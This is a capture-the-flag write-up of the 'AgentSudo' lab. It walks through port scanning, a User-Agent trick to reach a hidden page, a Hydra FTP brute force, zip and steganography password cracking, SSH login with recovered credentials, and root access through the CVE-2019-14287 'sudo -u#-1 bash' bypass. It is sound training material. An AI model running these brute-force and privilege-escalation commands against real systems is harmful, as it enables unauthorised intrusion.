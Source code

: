 # AgentSudo

IP - 10.10.149.28

## Scanning and Enumeration
nmap:
```
21/tcp open  ftp     vsftpd 3.0.3
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 ef:1f:5d:04:d4:77:95:06:60:72:ec:f0:58:f2:cc:07 (RSA)
|   256 5e:02:d1:9a:c4:e7:43:06:62:c1:9e:25:84:8a:e7:ea (ECDSA)
|_  256 2d:00:5c:b9:fd:a8:c8:d8:80:e3:92:4f:8b:4f:18:e2 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|http-server-header: Apache/2.4.29 (Ubuntu)
| http-methods:
|  Supported Methods: GET HEAD POST OPTIONS
|_http-title: Annoucement
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
```
dirsearch:
```
dirsearch -

[21:37:02] 403 -   276B - /.php

[21:37:33] 200 -   218B - /index.php

[21:37:33] 200 -   218B - /index.php/login/

[21:37:48] 403 -   276B - /server-status

[21:37:48] 403 -   276B - /server-status/
```

## Exploit
- To access the site I used BurpSuite to capture the request.
- Modified User-Agent by typing letters "A,B,C,D,E,F...", received "302 Found" which indicates redirection.
![image](https://github.com/user-attachments/assets/d20a6e6d-646e-4023-8f93-0c0c60b91657)
- Added the location: "agent_C_attention.php" to the GET request and got accessed to the site.
![image](https://github.com/user-attachments/assets/fff21a02-49e4-45a2-a072-1d553ca25bd4)

## Brute Force Attack
1. We know FTP server is open.
2. We know user is Chris.
3. We know Chris got a weak password.

To brute force the FTP server I used Hydra - ``` hydra -l chris -P /usr/share/wordlists/rockyou.txt -t 4 ftp://10.10.149.28 ```
![image](https://github.com/user-attachments/assets/d47f74f6-51a5-4472-92cf-ebdfce7d30f8)

Login successful using "chris" as the username and "crystal" as the password.

![image](https://github.com/user-attachments/assets/e673c106-981a-4a1e-a7b6-20958b1b66a9)

Found 'Agent J' file

![image](https://github.com/user-attachments/assets/4384db87-6b60-41dc-8798-c4457a928ea5)


Transferred the file to my machine

![image](https://github.com/user-attachments/assets/47f6dcd3-619f-4039-b531-ea1f603c800c)

![image](https://github.com/user-attachments/assets/01b9a433-bd67-4fea-9e04-6a85016fe016)

- Went back to the FTP server and moved both images to my machine.
- Found zip file inside one of the images and extracted it by running - ``` binwalk -e cutie.png ```

![image](https://github.com/user-attachments/assets/73b97020-ae76-494b-88fa-66a6e3356521)

- Tried to read the zip file but it is unreadable and needs to be exploit.
- Used zip2john to extract hashed passwords
- Used john to crack the password

![image](https://github.com/user-attachments/assets/acd5f02e-6a4a-43b6-9e20-28d241846988)

- Image cute-alien.jpg is also hiding something but it asks for a passphrase.
- To get the passphrase I used stegseek to crack it.

![image](https://github.com/user-attachments/assets/b139c113-ea9b-4568-9fd9-e52a7c460f0b)

- Found out Agent 'J' name is James. Password: hackerrules!

![image](https://github.com/user-attachments/assets/6994ad57-7c63-45b6-b294-737cd641a0f1)

## SSH Login
- Established SSH access using username: james | password: hackerrules!

![image](https://github.com/user-attachments/assets/d2ce9dbe-c4a6-4104-a397-c81d2138aa66)

- Got the user.txt flag with no issues inside "james" directory.
- In james directory there is an image. To get the name of the incident photo I transferred the image to my machine using - ``` scp james@10.10.149.28:/home/james/Alien_autospy.jpg . ```
- Went to https://tineye.com/ > Uploaded the image and in the results I found an article in foxnews.com called "Roswell alien autopsy".


## Privilege Escalation
- Info found about user james:
```
james@agent-sudo:/$ sudo -l
User james may run the following commands on agent-sudo:
(ALL, !root) /bin/bash
```
- By running - ``` sudo -u#-1 bash ``` it runs bash as the user with UID -1, which is interpreted as root (UID 0) on some systems, potentially allowing privilege escalation if sudo is misconfigured.


reference - https://www.aquasec.com/blog/cve-2019-14287-sudo-linux-vulnerability/


![image](https://github.com/user-attachments/assets/780f9ad1-e29e-4126-b601-97eadf3f01a5)








